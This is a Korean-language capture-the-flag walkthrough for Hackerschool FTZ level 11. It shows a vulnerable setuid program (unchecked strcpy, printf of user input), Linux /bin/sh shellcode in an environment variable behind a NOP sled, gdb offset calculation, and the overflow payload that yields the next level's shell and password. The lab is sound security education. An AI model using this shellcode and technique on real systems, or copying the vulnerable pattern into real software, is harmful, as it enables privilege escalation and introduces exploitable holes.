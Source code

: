 # Hackerschool FTZ Level 11

```
login as: level11
level11@192.168.18.131's password:
[level11@ftz level11]$ ls
attackme  hint  public_html  tmp
[level11@ftz level11]$ cat hint

#include <stdio.h>
#include <stdlib.h>

int main( int argc, char *argv[] )
{
        char str[256];

        setreuid( 3092, 3092 );
        strcpy( str, argv[1] );
        printf( str );
}


[level11@ftz level11]$ vi /tmp/ge
```

```c
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char * argv[]){
        printf("%p\n", getenv(argv[1]));
        return 0;
}
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
"/tmp/ge.c" 7L, 122C                                          1,1           All
```

```
[level11@ftz level11]$ mv /tmp/ge /tmp/ge.c
[level11@ftz level11]$ gcc -o /tmp/ge /tmp/ge.c
[level11@ftz level11]$ export EGG=`python -c 'print "\x90"*1024+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"'`
[level11@ftz level11]$ /tmp/ge EGG
0xbffff8a2
[level11@ftz level11]$ gdb attackme
GNU gdb Red Hat Linux (5.3post-0.20021129.18rh)
Copyright 2003 Free Software Foundation, Inc.
GDB is free software, covered by the GNU General Public License, and you are
welcome to change it and/or distribute copies of it under certain conditions.
Type "show copying" to see the conditions.
There is absolutely no warranty for GDB.  Type "show warranty" for details.
This GDB was configured as "i386-redhat-linux-gnu"...
(gdb) disas main
Dump of assembler code for function main:
0x08048470 <main+0>:    push   %ebp
0x08048471 <main+1>:    mov    %esp,%ebp
0x08048473 <main+3>:    sub    $0x108,%esp
0x08048479 <main+9>:    sub    $0x8,%esp
0x0804847c <main+12>:   push   $0xc14
0x08048481 <main+17>:   push   $0xc14
0x08048486 <main+22>:   call   0x804834c <setreuid>
0x0804848b <main+27>:   add    $0x10,%esp
0x0804848e <main+30>:   sub    $0x8,%esp
0x08048491 <main+33>:   mov    0xc(%ebp),%eax
0x08048494 <main+36>:   add    $0x4,%eax
0x08048497 <main+39>:   pushl  (%eax)
0x08048499 <main+41>:   lea    0xfffffef8(%ebp),%eax
0x0804849f <main+47>:   push   %eax
0x080484a0 <main+48>:   call   0x804835c <strcpy>
0x080484a5 <main+53>:   add    $0x10,%esp
0x080484a8 <main+56>:   sub    $0xc,%esp
0x080484ab <main+59>:   lea    0xfffffef8(%ebp),%eax
0x080484b1 <main+65>:   push   %eax
0x080484b2 <main+66>:   call   0x804833c <printf>
0x080484b7 <main+71>:   add    $0x10,%esp
0x080484ba <main+74>:   leave
0x080484bb <main+75>:   ret
0x080484bc <main+76>:   nop
0x080484bd <main+77>:   nop
---Type <return> to continue, or q <return> to quit---
0x080484be <main+78>:   nop
0x080484bf <main+79>:   nop
End of assembler dump.
(gdb) quit
[level11@ftz level11]$ ./attackme `python -c 'print "\x90"*268+"\xff\xf8\xff\xbf"'`
sh-2.05b$ my-pass
TERM environment variable not set.

Level12 Password is "it is like this".

sh-2.05b$
```

버퍼오버플로우에 대한 문제이다.

이 문제에서는 환경변수에 `NOP(0x90) Sled` 와, 쉘코드를 넣어놓고, 환경변수의 주소로 리턴주소를 조작하면 된다.

먼저 소스를 보면  `char str[256]` 을 버퍼 통해 공간을 생성하고,

`setreuid` 를 통해서 `level12` 의 권한으로 변경한 뒤,

`strcpy`를 통해 `str`에 `argv[1]`(첫번째 인자)를 복사해준다.

그리고 마지막으로 `str` 을 그대로 출력한다.

환경변수의 주소를 확인하기 위해 `/tmp/ge` 바이너리를 만든다.

소스는 다음과 같다.

```c
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char * argv[]){
        printf("%p\n", getenv(argv[1]));
        return 0;
}
```

여기서 사용한 방식은 1024 만큼의 `NOP Sled`와 25 바이트 쉘코드이다.

`\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80`

[출처](https://github.com/sunghun7511/Study/blob/master/Security/Useful_shellcodes.md)

`gdb`를 통해서 리턴 어드레스와의 거리를 계산해보면

`0x08048473 <main+3>:    sub    $0x108,%esp`

0x108 + 0x4 = 0x10C(268)

즉, 268만큼의 더미 데이터와 쉘코드의 주소를 넣어주면 된다.

```
[level11@ftz level11]$ /tmp/ge EGG
0xbffff8a2
```

`EGG` 라는 환경변수의 주소는 `0xbffff8a2` 이므로, 다음과 같이 넣어주면 된다.

```
[level11@ftz level11]$ ./attackme `python -c 'print "\x90"*268+"\xff\xf8\xff\xbf"'`
```